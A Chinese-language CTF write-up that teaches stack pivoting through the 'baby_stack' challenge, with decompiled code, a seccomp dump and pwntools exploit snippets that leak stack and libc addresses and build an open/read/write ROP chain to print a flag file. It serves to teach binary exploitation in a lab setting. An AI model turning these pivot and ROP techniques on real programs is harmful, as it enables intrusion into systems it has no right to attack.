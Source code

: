 # 栈迁移

本月打 XYCTF 和 中海洋校赛 的时候都遇到了栈迁移，就打算整理一下。

## 原理

指令等价：

- leave 
    - mov rsp,rbp 
    - pop rbp
- ret
    - pop rip

## off by one

即通过覆盖 rbp 寄存器的最低1位来使得 rbp 指向的位置在 0-255 字节移动

特点：

- 只需要 1 字节的溢出
- 不需要完全知道你payload的位置
 
## leave ret

通过覆盖原有 rbp 和使用 leave ret 覆盖原有返回地址来迁移

特点：

- 溢出字节只够覆盖rbp和返回地址
- 需要精心布置栈上的内容

以中国海洋大学的 baby_stack 为例：

给了附件和一个libc文件

~~~plaintext
[*] 'baby_stack'                                                                         
    Arch:     amd64-64-little                                                                             
    RELRO:    Partial RELRO                                                                                       
    Stack:    No canary found                                                                                       
    NX:       NX enabled                                                                                     
    PIE:      No PIE (0x3fc000)
~~~

checksec 发现只开了 NX 保护，使用 IDA Pro 反编译程序

~~~c
ssize_t func()
{
  char buf[320]; // [rsp+0h] [rbp-140h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  puts("please enter your content:");
  read(0, buf, 0x150uLL);
  printf("%s", buf);
  puts("please enter your content again:");
  return read(0, buf, 0x150uLL);
}
~~~

func 中存在缓冲区溢出漏洞，但给的大小 0x150 - 0x140 = 0x10 只能够覆盖 rbp 和 返回地址，同时发现程序开了沙箱

~~~

 line  CODE  JT   JF      K                                                                                             
=================================                                                               
 0000: 0x20 0x00 0x00 0x00000004  A = arch                                                                                  
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011                                                           
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number                                                                            
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005                                                             
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011                                                            
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010                                                                  
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010                                                                 
 0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010                                                                  
 0008: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0010                                                                  
 0009: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0011                                                            
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW                                                                              
 0011: 0x06 0x00 0x00 0x00000000  return KILL
~~~

程序给的溢出空间过小，所以只能通过泄露栈上地址来实现栈迁移从而构造 ROP，且主程序方面不存在可以使用的 ROPgadget，我们还需要泄露 libc 基址来使用 libc 内的 ROPgadget。恰好 func 中给了两次 read ，一次用来泄露，一次用以构造栈迁移。但我们需要两次泄露，也就是需要进入两次 func。所以思路就是：

1. 先泄露 old rbp 
2. 使用 old rbp 栈迁移使得程序再次进入 func
3. 泄露 libc 基地址
4. 构造 orw ROP

我们一步一步来讲

泄露 old rbp，我们只需要覆盖前 0x140 字节并让 printf 输出即可

exp1
~~~python
payload1 = b'a'*0x140
p.sendafter(b'content:\n',payload1)
p.recvuntil(b'a'*0x140)
old_rbp = u64(p.recv(6).ljust(8,b'\x00'))
print('old_rbp:',hex(old_rbp))
~~~

然后通过 old rbp 来实现栈迁移，我们需要找到：

- payload 和 old_rbp 的 offset
- leave ret 的地址

调试发现

![baby_stack-stack1](./assets/baby_stack-stack1.png)

rbp 指向的 old rbp 位置与输入的 payload 的 offset 为 0x150

exp2:
~~~py
payload2 = p64(old_rbp) + p64(func_address) + b'a'*0x130 + p64(old_rbp-0x150) + p64(leave_ret)
p.sendafter('again:\n',payload2)
~~~

详细来讲一下这个 payload 产生的栈迁移的过程，我们都知道栈的结构为：

![stack_pivoting-stack1](./assets/stack_pivoting-stack1.png)

当我将上面的 payload 写入后，栈就变成这样

![stack_pivoting-stack2](./assets/stack_pivoting-stack2.png)

则当你第一次退栈后，栈就会改变为：

![stack_pivoting-stack3](./assets/stack_pivoting-stack3.png)

此时 func 的起始地址成为返回地址，于是在再次退栈后，rip 就会指向 func 的起始地址，从而达到再次进入func且进入一块新栈区的效果。

此时我们可以进行第三步，泄露 libc 基址，查看发现新栈区的 rbp - 0xf0 处有libc上的地址

exp3：

~~~py
payload3 = b'a'*(0x140-0xf0)
p.sendafter(b"content:\n",payload3)
p.recvuntil(b'a'*(0x140-0xf0))
libc_base = u64(p.recv(6).ljust(8,b'\x00')) - 0x558A9
print("libc_base:",hex(libc_base)) 
~~~

最后构造栈迁移 + orw ROP链，和第二步类似但我们需要构造的栈内容如下：

![stack_pivoting-stack4](./assets/stack_pivoting-stack4.png)

1. 构造open("./flag",0,0) 读取 flag 内容
2. 构造read(3,0xFF,address) 将 flag 内容放入可写可读地址，我们这里直接选择 payload 的起始地址，3指的是 flag 的文件描述符
3. 构造write(1,0xFF,address) 将指定地址的内容输出到标准输出流
4. rbp 栈迁移到 payload 开头

exp4：

~~~python
ret = 0x937 + libc_base
pop_rdi = 0x21112 + libc_base
pop_rsi = 0x202f8 + libc_base
pop_rdx = 0x1b92  + libc_base
pop_rax = 0x3a738 + libc_base
syscall = 0x26bf  + libc_base
offset = 0x288
mov_rdi_rax = 0x400A8D
open_address = libc.sym['open'] + libc_base
read_address = libc.sym['read'] + libc_base
write_address = libc.sym['write'] + libc_base

payload4 = b'./flag\x00\x00' + p64(pop_rdi) + p64(old_rbp-offset) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(open_address)
payload4 += p64(pop_rdi) + p64(3) + p64(pop_rdx) + p64(0xFF) + p64(pop_rsi) + p64(old_rbp-offset) + p64(read_address)
payload4 += p64(pop_rdi) + p64(1) + p64(pop_rdx) + p64(0xFF) + p64(pop_rsi) + p64(old_rbp-offset) + p64(write_address)
payload4 += b'a'*0x90 + p64(old_rbp-offset) + p64(leave_ret)

p.send(payload4)


p.interactive()
~~~